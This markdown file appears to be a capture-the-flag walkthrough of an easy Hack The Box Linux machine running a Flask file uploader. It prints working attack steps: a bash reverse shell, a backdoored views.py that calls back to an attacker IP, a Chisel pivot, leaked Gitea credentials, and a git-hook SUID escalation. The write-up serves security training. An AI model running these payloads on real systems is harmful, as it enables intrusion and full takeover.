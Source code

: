## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)
## ⚙️ Recon

**Open Ports**
```bash
nmap -p- --min-rate 10000 10.10.11.164
nmap -p 22,80 -sCV 10.10.11.164
```

- `22/tcp`: [OpenSSH 7.6p1](SSH)
- `80/tcp`: [HTTP](HTTP) – Werkzeug/2.1.2 Python/3.10.3
- `3000/tcp`: Filtered (accessible later from container)

**Website**
- Main page has a source code download link
- /upcloud: file uploader
- Werkzeug server implies Flask backend

**Source Review**
- `get_file_name()` strips `../` via recursive replacement
- Bug: can bypass directory traversal with `/` or `/..//`
- Hidden Git repo reveals a dev branch with dev credentials

---

## 🐚 Shell as root (inside container)

### Method 1: Flask Debug Console (Unintended)
1. Collect:
   - Username: `root`
   - App path: `/usr/local/lib/python3.10/site-packages/flask/app.py`
   - MAC: `/sys/class/net/eth0/address`
   - Boot ID: `/proc/sys/kernel/random/boot_id`
   - Container ID: `/proc/self/cgroup` → extract last part after 3rd `/`

2. Generate PIN:
   - Use [Werkzeug Debug PIN Generator (SHA1-based)](https://book.hacktricks.xyz/pentesting-web/deserialization/flask-pin-debug-code-execution)

3. Input PIN in browser debug console:
   ```python
   import subprocess; subprocess.call(["bash", "-c", "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"])
   ```

### Method 2: Upload Backdoored `views.py`
```python
@app.route('/0xdf')
def rev():
    import socket, os, pty
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.6",443))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    pty.spawn("sh")
```

Upload it as `/..//app/views.py`, then visit `http://10.10.11.164/0xdf`.

---

## 🐚 Shell as dev01 (host)

### Identify Port 3000 Gitea
```bash
wget 172.17.0.1:3000 -O-
```

### Pivot Using Chisel
Host:
```bash
chisel server -p 8000 --reverse
```
Container:
```bash
./chisel client 10.10.14.6:8000 R:3000:172.17.0.1:3000
```

### Gitea Access
- URL: `http://localhost:3000`
- User: `dev01`
- Pass: `Soulless_Developer#2022`
- Repo: `home-backup` → contains SSH private key

### SSH into Host
```bash
chmod 600 opensource-dev01
ssh -i opensource-dev01 dev01@10.10.11.164
```

---

## 🧨 Privilege Escalation (host → root)

### Enumeration
```bash
id
sudo -l         # Requires dev01 password
```

### Find Cron Job with `pspy`
```bash
wget 10.10.14.6:8000/pspy64
chmod +x pspy64
./pspy64
```

### Abusing Git Hook
```bash
cd ~/.git/hooks/
echo -e '#!/bin/bash\ncp /bin/bash /tmp/0xdf\nchown root:root /tmp/0xdf\nchmod 4777 /tmp/0xdf' > pre-commit
chmod +x pre-commit
```

Wait for next cron to trigger. Then:
```bash
/tmp/0xdf -p
```

Root shell 🎯